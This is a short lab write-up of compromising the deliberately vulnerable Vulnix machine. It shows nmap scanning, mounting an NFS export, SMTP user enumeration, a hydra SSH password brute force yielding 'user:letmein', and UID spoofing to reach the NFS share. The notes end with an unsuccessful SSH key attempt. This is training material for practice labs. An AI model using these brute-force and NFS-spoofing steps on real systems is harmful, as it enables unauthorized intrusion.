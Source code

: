 # Vulnix (Creatigon Basic Pentest)

---

## Nmap Enum

```sh
nmap -sV $IP
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
79/tcp   open  finger     Linux fingerd
110/tcp  open  pop3       Dovecot pop3d
111/tcp  open  rpcbind    2-4 (RPC #100000)
143/tcp  open  imap       Dovecot imapd
512/tcp  open  exec       netkit-rsh rexecd
513/tcp  open  login
514/tcp  open  tcpwrapped
993/tcp  open  ssl/imaps?
995/tcp  open  ssl/pop3s?
2049/tcp open  nfs_acl    2-3 (RPC #100227)
Service Info: Host:  vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## NFS

- check the nfs

```sh
$ showmount -e $IP
Export list for 192.168.100.18:
/home/vulnix *

$ mkdir /tmp/vuln
$ mount $IP:/home/vulnix /tmp/vuln # mount into /tmp/vuln folder
# cannot enter even with root access
$ ls -la | grep vuln
drwxr-x---  2 nobody nogroup  4096 Sep  3  2012 vuln
```

## SMTP

- smtp user enum
- wordlist from MSF data

```sh
./smtp-user-enum.pl -M VRFY -U /usr/share/wordlists/unix_users.txt -t $IP
```

- username -> `user` exists

## SSH

- burte force username user

```sh
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP ssh -t 4
```

- password -> `letmein`

- enter ssh with user:letmein
- no sudo access
- etc/passwd

```
user:x:1000:1000:user,,,:/home/user:/bin/bash
vulnix:x:2008:2008::/home/vulnix:/bin/bash
```

- create vulnix user with id 2008

```sh
sudo useradd -M -u 2008 vulnix
sudo passwd vulnix
su vulnix
```

- then can access nfs sharing folder
- try to create ssh authorized key and enter with id_rsa, but not working, now

